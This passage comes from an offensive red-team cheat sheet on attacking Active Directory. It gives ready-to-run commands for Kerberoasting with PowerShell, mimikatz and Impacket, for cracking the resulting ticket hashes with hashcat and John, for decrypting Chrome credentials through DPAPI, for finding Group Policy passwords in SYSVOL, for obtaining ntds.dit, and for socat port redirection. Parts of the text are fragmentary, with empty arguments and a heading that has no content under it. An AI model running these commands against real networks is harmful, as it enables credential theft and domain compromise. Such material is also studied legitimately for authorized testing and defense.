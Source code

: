     steal_token

    mimikatz @dpapi::chrome /in:C:userspubliclibrariesld.dat /unprotect

Detecting Golden Ticket use on a DC

## Kerberoast

https://github.com/nidem/kerberoast  
https://room362.com/post/2016/kerberoast-pt1/  
https://room362.com/post/2016/kerberoast-pt2/  
https://room362.com/post/2016/kerberoast-pt3/

    Add-Type -AssemblyName System.IdentityModel; New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/host.domain.com"

Use mimikatz to export SPN Tikets once requested (Generates one file per ticket unless base64 option is used)

    mimkatz kerberos::list /export
    Invoke-Mimikatz -Command 'standard::base64 "kerberos::list /export" exit'

Impacket method of extracting SPN tickets and output hashes in the correct format for John via Proxychains and Beacon (Preferred)

    proxychains python ./GetUserSPNs.py -request domain.com/domainuser:password -dc-ip -outputfile

Cracking the hashes

    ./hashcat -m 13100 -a 0 spns.dump ./wordlists/* -r rules/dive.rule

    ./john --format=krb5tgs spns.dump --wordlist=

## Domain Admin Privesc Methods

> [Attack Methods for Gaining Domain Admin Rights in Active Directory][14]

1. Passwords in SYSVOL & Group Policy Preferences

`findstr /S cpassword %logonserver%sysvol*.xml`  
or use Get-GPPPasswords.ps1 from PowerSploit

1. Exploit the MS14-068 Kerberos Vulnerability on a Domain Controller Missing the Patch
2. Kerberos TGS Service Ticket Offline Cracking (Kerberoast)
3. The Credential Theft Shuffle
4. Gain access to AD Database file (ntds.dit)

* Backup locations (backup server storage, media, and/or network shares)  
* Find the NTDS.dit file staged on member servers prior to promoting to Domain Controllers.  
* With admin rights to virtualization host, a virtual DC can be cloned and the associated data copied offline.

Simple TCP Port Redirection

    socat TCP-LISTEN:80,fork TCP::80
    socat TCP-LISTEN:443,fork TCP::443

UDP Port Redirection


[1]: /threatexpress/img/pasties.png
[2]: https://www.twitter.com/joevest
[3]: https://www.twitter.com/andrewchiles
[4]: https://www.twitter.com/minis_io
[5]: https://canarytokens.org/generate#
[6]: http://blog.portswigger.net/2017/07/cracking-lens-targeting-https-hidden.html
[7]: https://medium.com/@networksecurity/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6
[8]: http://www.exploit-monday.com/2013/04/PersistenceWithPowerShell.html
[9]: https://github.com/subTee/ApplicationWhitelistBypassTechniques/blob/master/TheList.txt
[10]: http://clymb3r.wordpress.com/2013/04/06/reflective-dll-injection-with-powershell/
[11]: https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf
[12]: https://github.com/HarmJ0y/CheatSheets/blob/master/PowerView.pdf
[13]: https://gist.github.com/HarmJ0y/3328d954607d71362e3c
[14]: https://adsecurity.org/?p=2362
[15]: http://blog.cobaltstrike.com/2016/07/06/gettin-down-with-aggressor-script/
[16]: https://blog.cobaltstrike.com/2017/06/23/opsec-considerations-for-beacon-commands/#respond